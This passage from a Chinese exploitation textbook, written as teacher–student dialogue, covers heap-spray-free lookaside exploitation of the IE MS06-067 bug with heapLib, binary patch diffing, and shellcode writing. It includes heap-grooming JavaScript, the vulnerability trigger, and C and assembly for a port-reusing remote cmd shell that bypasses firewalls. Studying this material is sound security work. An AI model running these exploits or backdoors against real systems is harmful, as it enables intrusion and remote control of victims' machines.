“就是把 XXXX 地址处（对象指针）的值覆盖为 0x151e58，这样 0x151e58 指向的第一块空闲 1008 大小的内存就被伪造成了对象本身。那么调用对象的某些函数，比如虚函数时就会调用那块 1008 内存中的值。那块 1008 的内存在释放之前是被我们精心构造过了的，就可以让系统做我们所设计的事情了。比如一般虚函数的调用代码是：”

```asm
mov ecx, dword ptr [eax]      ; get the vtable address
push eax                      ; pass C++ this pointer as the first argument
call dword ptr [ecx+08h]      ; call the function at offset 0x8 in the vtable
```

如果把虚函数指针 XXXX 覆盖为 0x151e58，这样 `mov ecx, dword ptr [eax]` 就是 `mov ecx, dword ptr [0x151e58]`，ecx 就成了 YYYY 那块 1008 内存的地址。再调用 `call dword ptr [ecx+08h]` 时，就是 `call [yyyy+08]` 了。那我们在 `yyyy+08` 处放什么东西呢？当然存 `jmp ecx` 的地址了！这样就会跳到 YYYY 那块 1008 内存的开头了。也就是说，我们可以在释放这块内存到 lookaside 链表前，先构造数据如下：

```
string length | jmp 124 | addr of jmp ecx | sub [eax], al*2 | shellcode | null
4 bytes       | 4 bytes | 124 bytes       | 4 bytes         | x bytes   | 2 bytes
```

从 +8 到 +80h 都填充 `jmp ecx` 的地址，这样无论从 `call [ecx+8]` 到 `call [ecx+80]`，都是执行 `jmp ecx`。而 ecx 正好指向开头，就会进入首字节 `string length`。那个时候因为释放，长度清空为 NULL，是两个 `add [eax], al` 指令，然后我们紧跟 `jmp 124`，跳过 +8 到 +80h 的所有 `jmp ecx` 地址，再接两个 `sub [eax], al` 指令还原 eax 处的值，就可以让我们的 Shellcode 完整执行了。”

> “哦！明白了！太巧妙了！”

“当然，要使得我们分配的内存块能够释放到 lookaside 中，我们还需做一些额外的操作。为了得到一块完整的内存，我们先大量分配同样大小块，来避免内存空洞。”

```javascript
for (var i = 0; i < 1000; i++)
    heap.alloc(0x1008);
```

“然后我们分配连续三块，释放中间的一块，来避免被合并。”

```javascript
heap.alloc(0x1008)                // allocate three consecutive blocks
heap.alloc(0x1008, freeList)
heap.alloc(0x1008, 0x2020)
heap.free(freeList)               // free the middle block
```

“要释放到 lookaside 链表的首项，我们需要清空指定大小的 lookaside 链表。要实现这个，只用分配足够多次，保证 lookaside 为空即可。”

```javascript
for (var i = 0; i < 100; i++)
    heap.alloc(0x1008);
```

“这样操作以后，我们分配一块内存并释放它，这块内存就会放到 lookaside 的首项中了。大家在面对非 JavaScript 的应用程序时，这样操作就可以实现精确定位了！上面的 heap 对象是大牛 Alexander Sotirov 用 JavaScript 编写的 heapLib 库，通过 `var heap = new heapLib.ie()` 定义一个对象后，就可以直接调用各种封装好的函数，非常方便。”

“好，那我们马上试一下吧？”小菜们迫不及待了。

“稍等，JavaScript 为了提高内存分配的效率，在 OLEAUT32 中实现了一个自己的缓存，将释放的内存块存在缓存里，以备以后使用。当分配内存的时候，如果缓存中有空闲块，就直接从缓存中分配出内存；而在释放内存的时候，如果缓存没有满，就把释放的内存块放到缓存中。这样就实现不了我们调用系统的 HeapAlloc 和 HeapFree 把内存块放到 lookaside 中的企图了。”

“哦！那就一定要突破这个缓存机制吧。”小菜们说道。

“是的，我们可以用类似清空 lookaside 的方式，实现让系统内存又回到系统内存的目的。在分配内存前将缓存清空，这样分配内存的时候就一定来自于系统内存了；而在释放前，我们又将缓存填满，这样释放内存时就会直接回到系统内存了。缓存的结构是有 4 个 bin，每个 bin 分别保存 1－32 字节、33－64 字节、65－256 字节、257－32768 字节的内存块。每个 bin 最多保存 6 块内存。当一个 bin 被空闲块填满时，又来了一块被释放的内存，bin 会把这 7 块中最小的一块回收给系统。”

```cpp
class APP_DATA
{
    CacheEntry bin1_32[6];        // blocks from 1 to 32 bytes
    CacheEntry bin_33_64[6];      // blocks from 33 to 64 bytes
    CacheEntry bin_65_256[6];     // blocks from 65 to 256 bytes
    CacheEntry bin_257_32768[6];  // blocks from 257 to 32768 bytes
    void* AllocCachedMem(unsigned long size); // alloc function
    void  FreeCachedMem(void* ptr);           // free function
}
```

“因此，我们在分配前先分配每个 bin 的最大字节块 6 次，就是说分配 32 字节 6 次、64 字节 6 次、256 字节 6 次、32768 字节 6 次，共 24 次。因为每个 bin 最多保存 6 块，这样肯定会使得每个 bin 都为空，下一次分配就来自内存了。我们趁此机会，分配我们的 1008 大小的内存块。”

```javascript
for (var i = 0; i < 6; i++) {
    this.allocOleaut32(32, oleaut32())
    this.allocOleaut32(64, oleaut32())
    this.allocOleaut32(256, oleaut32())
    this.allocOleaut32(32768, oleaut32())
}
```

“然后我们释放掉刚才分配的 24 个最大块，它们会把更小块的推出缓存，缓存被它们填满，下一次 free 时会保证调用 HeapFree() 回到内存。如果此时我们释放 1008 大小的块，lookaside 为空，那么就会保证放入地址 0x151e58 了！”

“隐隐约约地明白了一些……”小菜们思索道。

“好了，我们用该方法实际利用一个漏洞吧——MS06-067 漏洞。如下的代码会触发该漏洞。”

```javascript
var target = new ActiveXObject('DirectAnimation.PathControl')
target.KeyFrame(0x4000803, new Array(1), new Array(1))
```

“这样做可以控制某个指针，而指针的操作如下。”

```asm
text:00071E4  mov   eax, [eax]      ; object pointer
text:00071E6  mov   ecx, [eax]      ; vtable
text:00071E8  push  eax
text:00071E9  call  dword ptr [ecx+8]
```

“如果是以前，我们使用 Heap Spraying 的方法覆盖大片内存，并将指针覆盖为 0x0c0c0c0c，这样关于指针的所有操作就都会落入我们的魔掌了！”

“对！”小菜们说道。

“但现在不同了！我们精确地知道了 XP SP2 的内存分配过程，就可以把对象指针的内容覆盖成 lookaside 的位置 0x151e58，然后精心构造内存块并释放到该处，就能通过 `call [ecx+8]` 直接调用我们的代码了。我们使用 Alexander Sotirov 的 heapLib 库来完成构造数据、精心放置堆块位置的功能吧。”

```javascript
// 首先初始化 heapLib 库
// initialize the heap library
var heap = new heapLib.ie()
```

“在这个初始化中会调用 `flushOleaut32`，对 JavaScript 自带的链表进行清空，之后我们分配的内存就会来自 HeapAlloc，使得内存真正来自系统内存。”

```javascript
for (var i = 0; i < 6; i++) {
    this.allocOleaut32(32, "oleaut32")
    this.allocOleaut32(64, "oleaut32")
    this.allocOleaut32(256, "oleaut32")
    this.allocOleaut32(32768, "oleaut32")
}
```

“然后，精心构造我们的内存，结构就是我们之前讨论的那个结构。其中，Shellcode 用的是弹对话框的例子；JMP ECX 用的是 IEXPLORE 中的 0x4058b5 地址，这个是比较固定的地址。”

```javascript
// MessageBox shellcode
var shellcode = unescape("%u3264...")
// address of jmp ecx instruction in IEXPLORE.EXE
var jmpecx = 0x4058b5;
```

“然后直接使用库的 `vtable` 函数方法，构造出 1008 字节大小的内存。该函数的参数是我们的 Shellcode 和所用的 `jmp ecx` 的地址。”

```javascript
// Build a fake vtable with pointers to the shellcode.
var vtable = heap.vtable(shellcode, jmpecx)
```

“这样构造出来 vtable 的结构，就是‘nop nop jmp +124、124 个 JMP ECX 地址、两个 `sub [eax], al`、Shellcode’这样的结构，一个函数就搞定，很方便吧？然后以 vtable 为参数调用 `lookasideAddr` 方法，它会通过 vtable 的大小，计算出 vtable 在释放后会放在 lookaside 的哪个位置。”

```javascript
// Get the address of the lookaside that will point to the vtable.
var fakeObjPtr = heap.lookasideAddr(vtable);
```

“其计算过程就是前面说过的 `heapBase + 0x688 + ((size+8)/8)*48`。好了，万事俱备，把 vtable 放进我们的 lookaside 吧。分配 100 次 vtable 大小，以保证清空了 lookaside。”

```javascript
for (var i = 0; i < 100; i++) {
    heap.alloc(vtable)
}
```

“然后释放 vtable，就把我们构造的 vtable 放进去了：`heap.lookaside(vtable)`。最后就是触发漏洞了。”

```javascript
// Build the heap block with the fake object address
// len      padding          fake obj pointer    padding   null
// 4 bytes  0x200c-4 bytes   4 bytes             14 bytes  2 bytes
var fakeObjChunk = heap.padding((0x200c-4)/2) + heap.addr(fakeObjPtr) + heap.padding(14/2)
// 凝实堆状态
// Defragment the heap.
for (var i = 0; i < 100; i++)
    heap.alloc(0x2010)
// Add the block with the fake object pointer to the free list
heap.debug("Creating two holes of size 0x2020")
heap.freeList(fakeObjChunk, 2)
// 然后触发漏洞
// Trigger the exploit
target.KeyFrame(0x40000801, new Array(1), new Array(1));
```

“这样会用 fakeObjPtr 的地址改写指针的地址，并保证覆盖掉对象指针，就可以精确定位地利用了。测试一下，看，成功了，如图 5-60！”

“哈哈！这简直如同制导弹一样精确啊！”小菜们面对着弹出的对话框感叹道。

“这再次说明了一个问题——真正的黑客，钻研的是系统底层的本质！大家也应该学习这种精神，勇于钻研！勇于探索！”

### 5.2.6 分析漏洞的艺术——补丁比较

无论是在自己的程序中打补丁，还是在自己的安全产品中添加保护，网管要创建自定义的 IDS 规则等，都需要理解漏洞。但现在面临的一个问题是，漏洞越来越商业化，微软的补丁公告也越来越简单，向公众封闭与安全补丁相关的漏洞技术。光从漏洞公告中是不可能知道漏洞的起因的，所以，现在补丁比较技术越来越热。

“补丁比较？”

“补丁比较是定位代码间的差异，从而获得补丁所修补的漏洞细节的技术。如果公告没有相关的漏洞技术细节，我们就只能通过补丁比较来分析漏洞了。补丁分为两大类：源代码补丁和二进制补丁。开源的补丁比较很简单，因为源码是公开的，直接对比就可以了。而对于商业软件，源码是不公开的，补丁只有发布的二进制文件，因此在这里我们更关心的是二进制的补丁比较。二进制补丁比较的传统方法有：字节对应比较，这个显然只能针对很小字节级的改动；另一种是反汇编后再做文本比较，其效果也不太好。现在主流的补丁比较方法是基于指令相似性的图形化比较和结构化比较。”

“基于指令相似性的图形化比较在 Todd Sabin 的《Comparing binaries with graph isomorphisms》中提出，流程是函数对比——每条指令作为流程图的一个节点——流程图化简——流程图合成——人工分拣对比。结构化比较在 Halvar Flake 的《Structural Comparison of Executable Objects》中提出，其流程是结构化函数签名（逻辑块数、子调用数目、链接数）匹配——签名相同不能匹配函数通过函数调用树进行结构化分析对比——得到结果。明白了原理，我们以阿里巴巴支付宝为例，看看补丁比较的流程吧。”

“我们先保存原来有漏洞的 107 版的 pta.dll，然后下载一个最新的 109 版本安装，得到作了补丁更新后的 pta.dll。有了原料，我们可以自己使用 IDA 写个脚本来进行补丁比较，但也可以直接用 eEye 公司现成的 BinDiff 进行比较（注：eEye 数字安全公司是全球著名的安全研究公司）。首先安装 eEye Binary Diffing Suite（EBDS），二进制差异比较工具集，其安装界面如图 5-61 所示。”

“EBDS 包括两种软件 Binary Diffing Starter 和 DarunGrim，都可以进行二进制补丁的比较。我们先使用 Binary Diffing Starter 进行比较。首先记得把 IDA 放在 `C:\Program Files\ida` 目录下，否则 Binary Diffing Starter 工作时会报找不到 IDA。然后把 `Diffing Suite\Plugins` 目录下的 `info_dump.plw` 和 `analida.plw` 拷贝到 IDA 的 `Plugins` 下，把 Diffing Suite 安装目录下的 `sqlite3.dll` 拷贝到 IDA 的根目录中，这样准备工作就做好了。我们在 Binary Diffing Starter 的 Pre-Path 中选择补丁前的文件，Post-Path 中选择打了补丁后的文件，并在 Output-Path 中选择输出的文件夹。BDS Levels 的 Level 1 是不做反汇编处理，直接比较文件本身的大小、时间、版本等差异，而 Level 2 是做反汇编比较。我们将其都选上，看看各自的效果。点击分析按钮，开始分析，如图 5-62。”

“不到三顿饭的工夫，就分析完成了，如图 5-63。”

“三顿饭？还真够久的了。”

“呵呵，这个与分析对象有关。我们看看所设置的输出目录，程序生成了两个文件，如图 5-64。”

“Bds 文件是比较结果，而 db 文件是给 DarunGrim 使用的分析文件。我们使用文本编辑器打开 bds 文件，看到首先是 Level 1 的结果，如图 5-65。”

“Level 1 的比较是版本号、生成日期、MD5 值、语言等一目了然的属性，不涉及到二进制或汇编代码的比较。Level 2 就涉及到代码的比较结果了，包括引入/引出函数、代码等，如图 5-66。”

“如果补丁改动不多，可以由 Binary Diffing Starter 的 Level 2 结果直接看到漏洞的修补情况。比如 eEye”

## 第五章：客户端漏洞的利用

给出的比较例子——MS06-044 补丁比较，Level2 的比较结果显示只有一个比较大的差别，就是添加了下面的这个函数，如图 5-67。

“这样只要精确分析这个添加的函数就可以知道为什么需要这么做了，如图 5-68。”

“稍微看下代码就可以发现这个函数的功能，和它的名字 FlipSlashes 透露的一样，是把字符斜线 `/` 转换成字符反斜线 `\`。这就明白了补丁的主要功能，就可以创建 IDS 规则，或者构建 POC 代码了。但回过头来看我们的这两个版本，Level2 的差别还是比较大，看着还是很痛苦的。所以我们再来看看直观的、图形化的 DarunGrim 的使用吧。我们用 IDA 打开打补丁前的 dll，选择插件 AnalIDA 进行分析，如图 5-69。”

“把输出结果选择保存为 analida.db，关闭该 dll，再用 IDA 打开补丁后的 dll，还是 AnalIDA 插件分析，这次保存时，注意要选择上一次的 analida.db，如图 5-70。”

“这样就有了初步的分析文件，再打开 DarunGrim，开始新的分析，如图 5-71。”

“选择分析对象的时候，如果不存在我们想要的目录中，就需要先注册。点击选择 Add SQLite Data Source，如图 5-72。”

“然后选择刚才保存的 db 文件。其实，如果在 Binary Diffing Starter 分析时选择了自动 DarunGrim，那么我们就可以省略手工用 IDA 生成 db 文件的这两步，直接用 DarunGrim 打开 Binary Diffing Starter 生成的 db 文件，如图 5-73。”

“点击该 db 文件，会出现两次保存的 dll，如图 5-74。”


“我们对应地选择补丁前的 old dll 和补丁后的 new dll，对于 result 目录，就选择我们保存的 db 文件，这样设置的结果如图 5-75 所示。”

“好了，点击开始分析，分析的时间就更久了。分析完毕后，我们选择 Match Rate 一栏进行排序，然后点击右键选择 Diff 操作，如图 5-76。”

“会给出漂亮的图形化的比较结果，如图 5-77。”

“在 DarunGrim 中，相同的代码用白色表示，做了修改的代码用黄色表示，添加的代码是红色的。比如我们对打了 MS07-004 前后的 vgx.dll 进行比较，会发现一个添加的红色模块对 eax 进行了判断：cmp eax, 5D1745Dh；jnb loc_6FF17D07。这多了一个检查 eax 的步骤，如果大于 5D1745Dh，就在相乘之前退出，避免溢出，如图 5-78。”


图 5-74


图 5-75


图 5-77


图 5-76


图 5-79


图 5-78

“回到我们支付宝的分析，会在 10003D4E 附近发现，进行了诸多的比较判断后，才调用 idx，从图 5-79 中可以清楚地看到改变的流程。”

“大家可以清楚地看出，阿里巴巴打补丁修补了漏洞，是板上钉钉的事啊！”

“是啊！扭扭捏捏像什么话啊！”

“从上面的演示中可以看出，使用补丁比较技术可以很快找到有问题的地方，节省大量的时间，并使得构造 POC 成为了可能！”

“这是在有了补丁的情况下，那如果补丁都没有呢？”好学的小菜们问道。

“如果连补丁都没有，那就是 0day 漏洞了。0day 漏洞的挖掘，就需要用 Fuzzing 等技术了。”老师说道，“以后如果有机会，我们再深入探讨这方面的内容吧。从下节课开始，我们完成一个之前一直遗留下来的问题——Shellcode 的编写。”

# 第六章 Shellcode 编程基础

“好了，终于涉及到 Shellcode 编程了，可真向往啊！”小菜们迈着轻松的步伐，迎着灿烂的霞光走进了教室。

“看到现成的 Shellcode 实现各种功能，早就想打造出属于自己的 Shellcode 了。”大家对老师说道。“对，我们早就说过要找个机会专门讲解 Shellcode 的编写了，现在机会来了，我们就由浅入深地进行学习吧！”老师说道。

## 6.1 Shellcode 初步介绍

“Shellcode 其实就是一段机器码。我们利用漏洞，进入 Shellcode，那么机器会做什么样的行为，关键就在于 Shellcode 的功能了。我们先解决一些基本 Shellcode 编写的问题，这些技巧在 Shellcode 的实际编写中会经常用到的。”


### 6.1.1 Shellcode 中字符串的构造技巧

“首先解决的问题是在 Shellcode 中字符串的轻松构造。我们在最早利用漏洞的时候就说过，编写 Shellcode 和普通程序的最重要不同是：Shellcode 里使用的字符串都需要 Shellcode 自身来构造，比如要执行 system("cmd.exe") 指令，参数 cmd.exe 字符串的地址是不知道的，而且内存里有没有这个字符串都是问题，所以需要 Shellcode 自身把 cmd.exe 字符串构造出来，并采用类似病毒的方法，动态获取其绝对地址，作为参数压入堆栈再调用函数。具体看看执行 system("cmd.exe")，之前的构造方法如下。”

```asm
xor edi, edi
push edi        ; 压入 0，esp-4，作用是构造字符串的结尾 \0 字符。
sub esp, 08h    ; 加上上面，一共有 12 个字节，用来放 "command.com"
mov byte ptr [ebp-0Ch], 63h
mov byte ptr [ebp-0Bh], 6Fh
mov byte ptr [ebp-0Ah], 6Dh
mov byte ptr [ebp-09h], 6Dh
mov byte ptr [ebp-08h], 61h
mov byte ptr [ebp-07h], 6Eh
mov byte ptr [ebp-06h], 64h
mov byte ptr [ebp-05h], 2Eh
mov byte ptr [ebp-04h], 63h
mov byte ptr [ebp-03h], 6Fh
mov byte ptr [ebp-02h], 6Dh ; 生成串 "command.com"。
```


运行到这里时，可以看到程序在内存，确切地说是在堆栈中生成了想要的字符串 command.com，这样构造出来就是 ebp-0Ch 开始存放了 command.com，如图 6-1。

“对，对，对！”小菜们应道。

“在内存中生成了想要的字符串后，使用 lea 指令获得字符串首地址，再把首地址压入堆栈，最后 call 函数的地址，就完成了函数的调用。具体的实现如下。”


```asm
lea eax, [ebp-0Ch]
push eax        ; 串地址作为参数入栈
mov eax, 0x78018ebf
call eax        ; 调用 system
```

“执行程序，就可以完成函数的调用，成功弹出 command.com 窗口，如图 6-2。”

“嗯，没错，就是这样的。”小菜们点头道。

“就是没有技术含量的事情……”更重要的是这种方法使生成的机器码变得很长。每一句 mov 汇编指令变为机器码都需要四个字节的长度，比如 **mov byte ptr [ebp-0Ch], 63h** 对应的机器码指令为 **C6 45 F8 63**，其实有三个字节都是废话，这增长了 300% 的代码长度。而 Shellcode 一个关键的要求就是要简短，所以有时候该方法是不可行的。”

“那有什么简单的方法可以使 Shellcode 字符构造简单又简洁吗？”小菜们问道。

“答案是有的。”老师说道，“就是使用 **_emit** 关键字来构造字符，_emit 和 MASM 的 DB 指令类似，是告诉编译器，直接在本区域内定义出一个字符型的字符放在该位置，虽然它每次只能定义出一个字节，但还是可以连续使用它来定义出一个字符串，比如 _emit 0x4A、__asm _emit 0x43、__asm _emit 0x4B 等。使用 _emit，可以把上面那段程序直接改写为如下。”

```asm
__asm
{
    call EXEC                // call EXEC 后，后面跟的字符串地址就会自动压入堆栈
    _emit 'c'                // 用 _emit 关键字直接构造字符串
    _emit 'o'
    _emit 'm'
    _emit 'm'
    _emit 'a'
    _emit 'n'
    _emit 'd'
    _emit '.'
    _emit 'c'
    _emit 'o'
    _emit 'm'
    _emit '\0'
EXEC:
    mov eax, 0x78018ebf      // 到达这里时，参数 command.com 的地址已经入栈
    call eax                 // call system 函数
    add esp, 0x12
    pop ebp
}
```


图 6-3

“前面 CALL 到 EXEC 的位置没有问题，然后怎么就直接 call system 的函数了？command.com 的地址还没有压入堆栈啊？”小菜们嚷道。

“呵呵，其实 CALL EXEC 的时候，command.com 的地址就入栈了。_emit 是在代码中直接生成该字符，因此就会在代码中出现这样的构造，如图 6-3。”

“我们 call EXEC 时，就会把下一句指令的地址作为返回地址压入堆栈，下一句指令的地址是什么呢？就是 command.com 的第一个 c 字母所在的地址啊，所以就把 c 的地址，也就是 command.com 的地址压入堆栈了。这样当到达 EXEC 的位置时，command.com 的地址已经在栈中了，所以我们直接就 call system 喽。”

“哦！原来是这样啊。”

“当然，如果我们要保存字符串的地址，可以在 EXEC: 的地方加一个 **pop edi**，这样 edi 中存的就是 cmd.exe 的地址。好了，测试一下，成功了，如图 6-4。”

“这样以后在 Shellcode 中需要构造字符串时，都可以直接使用 _emit 关键字将字符串定义出来，再在前面加一句 call 到字符串后的代码，就完成字符串构造、入栈的一体化工作了，而且生成的代码非常简短，没有冗余的数据，真是好用又实用。如果想暂时保存字符串地址等下次使用，还可以使用类似 **pop ebx** 指令等把地址保存在寄存器中，供以后使用。好了，大家用这种方法来练习写一个执行计算器 **system("calc.exe")** 的吧。”

“好啊，我们保存下字符串的地址，先 pop edi，再 push edi，其实不要这两句，calc.exe 字符串的地址也已经在堆栈里面放着了。”小菜们比划着，仿照着写出了程序。

```asm
call EXEC                   // call EXEC 后，后面跟的字符串地址会自动压入堆栈
_emit 'c'                   // 用 _emit 关键字直接构造字符串
_emit 'a'
_emit 'l'
_emit 'c'
_emit '.'
_emit 'e'
_emit 'x'
_emit 'e'
_emit '\0'
EXEC:
pop edi        ; 保存子程序地址
push edi       ; 还原地址入栈
mov eax, 0x7801ebf7 ; system on 2000 SP4 0x77669c1d
call eax       ; 调用 system("calc.exe")
add esp, 0x12
pop ebp
```


图 6-4


“搞定！”小菜们运行这个 Shellcode，成功运行了计算器。如图 6-5。“哈哈，现在看见字符，也不怕不怕啦……我神经比较大，不怕不怕不怕啦！”小菜们高兴地又唱了起来。

图 6-5

### 6.1.2 手把手突破防火墙的 Shellcode

“我们已经手把手地写过一个开本地 DOS 窗口的 Shellcode，而且把它用在了实际的漏洞测试中。”老师说道，“但是，它的功能还是略显简陋，在网络环境下 Shellcode 至少要能开一个网络连接后门，或者上传下载文件才算有用。我们来一个更实际点的，也是高难度的代码——突破防火墙 Shellcode 的编写。目前网络上获得控制台的 Shellcode，要么在目标机上开一个端口，等待攻击者连接；要么让目标机主动连接攻击者的主机，俗称反向连接。但前种方法一般都会被防火墙挡住，而后者反向连接不但需要攻击者有一个公网 IP，而且也会被目标机端禁止外连访问的防火墙挡掉。”

“那有没有更好的办法呢？”小菜们问道。

“当然有了！第一种方法就是复用攻击时的 socket，我们给目标机发送攻击字符串的时候就使用了 socket；如果还存在，我们把它找到并回收利用。Shellcode 完成的功能是查找进程中所有的 socket 并依次判断，如果是那个发送攻击字符串的 socket，就使用它来传文件、留后门等。”

“这个听起来很有趣啊！”

“是的，我们会在高级 Shellcode 编写中讲解的。第二种方法是复用端口。作为服务器，防火墙总会打开服务所需要的端口，比如 FTP 的 21 端口，IIS 的 80 端口等。我们在 Shellcode 中复用这些防火墙打开的端口，并完成自己想要的功能。第三种方法是终止掉目标机上的 FTP 或 IIS 等服务，然后再占用 21、80 等端口。这种方法在第一种方法失败的情况下可以使用。还有其它的一些方法，比如红色代码蠕虫使用的 Hook 技术，它是把 TcpSockSend 函数替换掉，这样发给任何客户的信息都是‘Hacked by Chinese’，我们也可以把接收函数 recv Hook 掉，保证既执行攻击者发过来的命令，又不影响正常的服务。如果知道网站的物理路径，还可以由 Shellcode 直接创建一个 ASP 木马。当然还可以添加用户，创建虚拟映射盘，直接写一个 EXE 的木马并执行等，方法很多，要用发散性的思维考虑，只要想得到，就一定做得到！”

“哦？一定做得到吗？”

“大家都知道，Shellcode 就是一段代码的机器码形式而已，所以只要 Shellcode 不要超过长度限制，并符合特殊字符的规划，运行起来是不会有问题的。这里我们就以第二种思路——复用端口，来讲解突破防火墙的网络 Shellcode 的实现。一般情况下，已经绑定的端口是不能再次被绑定的，但可以使用 setsockopt 函数来改变这一点。setsockopt 函数原型如下。”

```c
int setsockopt(
    SOCKET s,
    int level,
    int optname,
    const char *optval,
    int optlen
);
```

“第一个参数为要改变的 socket 标志符，第二个参数为选项的等级，第三个参数就是要改成的选项名了，第四、第五个参数为请求值缓冲区的指针和大小。具体实现时，把第三个参数设为 SO_REUSEADDR，就可以重用已绑定的端口了。代码如下。”

```c
val = TRUE;
setsockopt(listenFD, SOL_SOCKET, SO_REUSEADDR, (char *)&val, sizeof(val));
```

“其它的和一般的网络编程就一样了。怎么样，很简单吧？”

> 小知识：该方法只有在原来的程序没有使用 SO_EXCLUSIVEADDRUSE 选项来绑定端口的情况下，才能使用 SO_REUSEADDR 成功。如果使用了 SO_EXCLUSIVEADDRUSE 选项，就只能使用其它的方法绑定端口了。

加上一个大家都看得见的功能，给连接端口的客户开一个远程的 Shell。开远程 Shell 也比较简单，用 CreateProcess 函数建立 cmd 进程，并把进程的输入、输出和错误句柄都换成我们的 socket 就可以了。

```c
// 设置为输入输出句柄为 Socket
si.hStdInput = si.hStdOutput = si.hStdError = (void *)clientFD;
// 然后用这样设置后的 si 建立进程就可以了
ret = CreateProcess(NULL, cmdLine, NULL, NULL, 1, 0, NULL, NULL, &si, &ProcessInformation);
```

注意这里的 socket 要用 WSASocket 函数建立的才能这样替换，而用 socket 函数建立套接字只能用管道来通信了。这样合起来的端口复用代码如下，里面有详细的解释。

```c
int main()
{
    WSADATA ws;
    SOCKET listenFD;
    int ret;
    // 初始化 wsa
    WSAStartup(MAKEWORD(2,2), &ws);
    // 注意要用 WSASocket
    listenFD = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
    // 设置绑定选项，SO_REUSEADDR 选项就是可以实现端口绑定的
    // 但如果指定了 SO_EXCLUSIVEADDRUSE，就不会绑定成功
    BOOL val = TRUE;
    setsockopt(listenFD, SOL_SOCKET, SO_REUSEADDR, (char *)&val, sizeof(val));
    // 监听本机 21 端口
    struct sockaddr_in server;
    server.sin_family = AF_INET;
    server.sin_port = htons(21);
    server.sin_addr.s_addr = inet_addr("127.0.0.1");
    ret = bind(listenFD, (sockaddr *)&server, sizeof(server));
    ret = listen(listenFD, 2);
    // 如果客户端来 21 端口，接受连接
    int iAddrSize = sizeof(server);
    SOCKET clientFD = accept(listenFD, (sockaddr *)&server, &iAddrSize);
    STARTUPINFO si;
    ZeroMemory(&si, sizeof(si));
    si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
    // 设置为输入输出句柄为 socket
    si.hStdInput = si.hStdOutput = si.hStdError = (void *)clientFD;
    char cmdLine[] = "cmd";
    PROCESS_INFORMATION ProcessInformation;
    // 建立进程
    ret = CreateProcess(NULL, cmdLine, NULL, NULL, 1, 0, NULL, NULL, &si, &ProcessInformation);
    return 0;
}
```


我们来测试一下复用的威力，先安装一个 Serv-U FTP 服务器，那么它会打开 21 端口。如果 telnet 21 端口，就会得到 Serv-U 的 banner，如图 6-6。

这时候再执行我们的程序，就会重新绑定 21 端口，使用 netstat -an 查看，就会发现有两个 21 端口在监听，一个的 IP 是 0.0.0.0，一个是 127.0.0.1，如图 6-7。

现在再 telnet 21 端口，这次得到的是我们的远程 Shell。没错，我们的程序抢掉了 Serv-U 使用的 21 端口，突破成功，如图 6-8。

好了，C 代码的程序有了，我们把它变为有 Shellcode 特点的汇编吧。Windows 下函数的调用是先将参数从右到左入栈，然后 call 函数的地址。所以首先要找出所有函数的地址并记下来。我们利用以前的“FindAddress.cpp”来查找这次所有要用的函数地址。先 LoadLibrary 函数所在的 dll，再 GetProcAddress 函数名，最后打印出得到的地址。以后要查找其它函数地址时，只要更改 LoadLibrary 和 GetProcAddress 参数里的 dll 名和函数名就可以了。在我们的系统下，执行的效果如图 6-9 所示。

我们将它们保存下来。

```asm
// 把要用到的函数地址存起来
mov eax, 0x77e5727a
mov [ebp+4], eax ; CreatePipe
mov eax, 0x77e41bb8
mov [ebp+8], eax ; CreateProcessA
mov eax, 0x77e97624
mov [ebp+12], eax ; PeekNamedPipe
```

# 第六章 Shellcode 编程基础

```asm
mov eax,0x77e59d8c
mov [ebp+16], eax ; WriteFile
mov eax,0x77e58b82
mov [ebp+20], eax ; ReadFile
mov eax,0x77e556b5
mov [ebp+24], eax ; ExitProcess
mov eax,0x71a241de
mov [ebp+28], eax ; WSAStartup
mov eax,0x71a23c22
mov [ebp+32], eax ; socket
mov eax,0x71a23ece
mov [ebp+36], eax ; bind
mov eax,0x71a25de2
mov [ebp+40], eax ; listen
mov eax,0x71a2868d
mov [ebp+44], eax ; accept
mov eax,0x71a21af4
mov [ebp+48], eax ; send
mov eax,0x71a25690
mov [ebp+52], eax ; recv
```

“这里使用的是固定的 API 函数地址，我们接下来会介绍动态获取函数地址，只需要加上动态查找部分，而后面部分可以保持不动就继续使用了。这也算是一种工程的思想吧。地址找到后，开始实现每个函数，函数实现完毕，汇编就写出来了。第一个是 `WSAStartup(MAKEWORD(2,2), &ws)`，随便减 `esp 0x200`，将 `esp` 作为 `ws` 的地址；而 `MAKEWORD(2,2)` 就是 `0x202`，所以直接 `push 0x202` 就可以了。汇编实现如下。”

```asm
sub esp, 0x200           ; 第一个参数 &ws
push esp
push 0x202               ; 第二个参数 0x202
call dword ptr [ebp+0x8] ; [ebp+0x8] 中存着 WSAStartup 的地址，执行
add esp, 0x200
```

第二个是执行 `WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);`，有点麻烦了，那些参数值是多少呢？一种方法是点右键，选择“Goto 定义”，就可以找到对应的值，但遇到参数比较多的时候就比较慢；另一种方法是借用写好的 C 程序，按 F10 进入调试，按 debug 工具栏上的 disassemble 按钮，就出现了对应的汇编代码，如图 6-10。

“看，对应的值不就出来了吗？我们只要仿照着依次 `push 0 0 0 6 1 2`，再 `call WSASocketA` 函数的地址，就行了。以前说过，`WSASocketA` 函数执行完后，`EAX` 会存放函数的返回值，所以这里的 `EAX` 就是建立的 socket，我们把它保存在 `ebx` 中，在后面会用到：`mov ebx, eax ; save socket to ebx`。下一句 `setsockopt(listenFD, SOL_SOCKET, SO_REUSEADDR, (char *)&val, sizeof(val))` 用同样的方法就会知道 `sizeof(val)=4`，`SO_REUSEADDR` 为 4，`SOL_SOCKET` 为 `0FFFFh`。那第四个参数 `(char *)&val` 怎么表示呢？其实 `val=true`，就是 `0x00000001`，那么 `&val` 就是 `0x00000001` 的地址，我们在堆栈中构造出 `0x00000001`，把它的地址当参数就可以了。”

```asm
mov eax, 0x00000001
push eax
mov esi, esp ; 这样把 &val 存在 esi 中
```

“再执行 `setsockopt` 就是。”

```asm
push 4                  ; 第五个参数 sizeof(val)=4
push esi                ; 第四个参数 &val
push 4                  ; 第三个参数 SO_REUSEADDR
push 0FFFFh             ; 第二个参数 SOL_SOCKET
push ebx                ; 第一个参数，WSASocket 建立的 socket
call dword ptr [ebp+0x10] ; [ebp+0x10] 中存着 setsockopt 的地址，执行
```

“OK，瞬间完成了一半的工作。”

“唉，看着汇编一段一段地写好，真是件惬意的事情啊！”小菜们说道。

